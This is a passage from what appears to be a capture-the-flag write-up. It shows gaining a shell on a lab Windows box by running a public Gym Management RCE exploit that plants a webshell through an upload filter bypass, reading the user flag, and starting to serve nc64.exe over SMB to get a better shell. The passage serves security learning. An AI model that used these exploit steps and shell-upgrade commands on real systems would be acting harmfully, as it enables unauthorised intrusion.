 
## Shell as shaun

### POC Shell

I’ll grab a copy of the exploit using `searchploit -m php/webapps/48506.py`
(and I like to rename it something more descriptive, like
`gym_management_rce.py`). I took a look at the script, and it looks like it
bypasses filters to upload a webshell, and then runs an infinite loop getting
commands from the user, submitting them to the webshell, parsing the results,
and printing them.

It uses `print "string"` syntax, so it must be legacy Python. Still, the
script works pretty well, at least to get a foothold:

    
    
    root@kali# python gym_management_rce.py http://10.10.10.198:8080/
                /\
    /vvvvvvvvvvvv \--------------------------------------,
    `^^^^^^^^^^^^ /============BOKU====================="
                \/
    
    [+] Successfully connected to webshell.
    C:\xampp\htdocs\gym\upload> whoami
    �PNG
    
    buff\shaun
    
    C:\xampp\htdocs\gym\upload>
    

You can see that each response starts with the magic bytes for a PNG image
file, which is part of the upload filter bypass. I’ll look at the exploit more
in Beyond Root.

Because the script is just sending requests to the simple webshell, there’s no
state, so I can’t change directories. I can still get `user.txt` from here:

    
    
    C:\xampp\htdocs\gym\upload> type \users\shaun\desktop\user.txt
    �PNG
    
    e9ff7f33************************
    

### nc64.exe

This shell gets a bit frustrating after a while, so I upgraded to `nc64.exe`.
I started by running `smbserver.py` in the directory where I keep `nc64.exe`:

    
    
    root@kali:/opt/shells/netcat# smbserver.py share . -smb2support -username df -password df
    Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
    
    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed
    